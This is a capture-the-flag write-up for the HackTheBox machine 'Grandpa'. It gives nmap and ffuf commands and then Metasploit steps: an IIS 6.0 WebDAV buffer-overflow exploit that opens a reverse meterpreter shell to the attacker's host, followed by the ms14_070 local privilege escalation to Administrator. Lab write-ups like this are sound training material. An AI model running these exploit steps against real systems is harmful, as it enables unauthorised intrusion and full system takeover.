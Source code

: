 ```yaml
---
title: "Grandpa - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Grandpa
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
---
```


## Grandpa
![](https://kar0nx.github.io/assets/images/writeup/381683fd107da11f1dc916401ae8aee0.webp)
 
## Reconnaissance

IP: 10.10.10.14
### NMAP

```
nmap -T4 -p- -A 10.10.10.14
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-21 06:15 EST
Nmap scan report for 10.10.10.14
Host is up (0.032s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Fri, 21 Feb 2025 11:17:32 GMT
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_http-title: Under Construction
|_http-server-header: Microsoft-IIS/6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (90%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (90%), Microsoft Windows Server 2008 Enterprise SP2 (90%), Microsoft Windows Server 2003 SP2 (89%), Microsoft Windows 2003 SP2 (88%), Microsoft Windows XP SP3 (88%), Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (88%), Microsoft Windows XP SP2 or SP3 (86%), Microsoft Windows XP (85%), Microsoft Windows Server 2003 (85%), Microsoft Windows XP SP2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   33.47 ms 10.10.14.1
2   33.77 ms 10.10.10.14

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 110.35 seconds

```

Nmap shows that only port 80 http - Microsoft IIS httpd 6.0 is open.
## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250221121637.png)

Site Under construction, not much information here.

## Ffuf

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.14/FUZZ  
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250221122220.png)

Nothing special. 

### Google

Let's explore google for Microsoft IIS httpd 6.0 exploits. We got something, Remote Buffer Overflow
https://www.exploit-db.com/exploits/41738
https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl/

## Gaining Access

```
use windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.10.10.14
set RPORT 80
set LHOST 10.10.14.15
run
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250221130030.png)

```
systeminfo
```

```
Host Name:                 GRANPA
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 47 Minutes, 35 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 753 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,293 MB
Page File: In Use:         177 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A

```

We notice that system running 32 bit so let's migrate to 32 bit meterpreter

```
ps
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250221131940.png)

We got a shell but no privilege to Harry and Administrator files 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250221130002.png)

## Privilege Escalation

Lets search for local exploits using suggester

```
background
```

```
search local_exploit_suggester
use multi/recon/local_exploit_suggester
set session 1
run
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250221130753.png)

Let' s try ms14_070_tcpip_ioctl 

```
exploit/windows/local/ms14_070_tcpip_ioctl 
set session 1
set lhost tun0
run
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250221132130.png)

We have Administrator privilege, to get flags simply navigate to
```
C:\Documents and Settings\Harry\Desktop\user.txt
C:\Documents and Settings\Administrator\Desktop\root.txt
```